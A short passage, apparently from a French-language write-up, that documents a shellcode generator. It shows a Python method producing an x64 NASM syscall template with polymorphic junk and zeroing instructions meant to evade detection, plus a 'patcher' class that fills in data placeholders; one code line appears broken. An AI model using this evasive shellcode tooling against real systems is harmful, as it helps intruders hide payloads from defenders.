 ```python
	# The same goes for the x64 template
    def payload_64(self):
        meta = MetaEngine()
        meta.add(Junk)
        meta.add(Zero)

        return fr"""
global _start:

_start:
    {meta.apply('zero', 64, reg1='eax')}
    push   0x42
    pop    rax
    inc    ah
    cqo
    push   rdx
    {AsciiData.token}
    {meta.apply('junk', 64)}
    push   rsp
    pop    rsi
    mov    r8, rdx
    mov    r10, rdx
    syscall
"""
```

#### Données dynamiques

Les données à intégrer au shellcode de manière dynamique sont gérées par les `patchers`.

Leur fonctionnement est simple : leur seul rôle est renvoyer la donnée par laquelle remplacer le placeholder présent dans le template.

```python
from modules.patcher.base import BasePatcher


class AsciiLen(BasePatcher):
	# Template placeholder
    token = "$ASCII_LEN$"

    # "patch_shellcode" is set upstream to signal
    # that we're patching either raw shellcode or NASM source code
    def __init__(self, sc, patch_shellcode):
        super().__init__(sc, patch_shellcode)

    def apply(self, options, encoded_payload):
        data = format(len(options.get("data")), "02x")  # ex : 1a

        # We need to add an "h" to the end of the hex string if we're
        # patching a source code template
        # ie. 08h
        return self.patch_with(data) if self.patch_shellcode
        	else self.patch_with(f"{data}h")

```
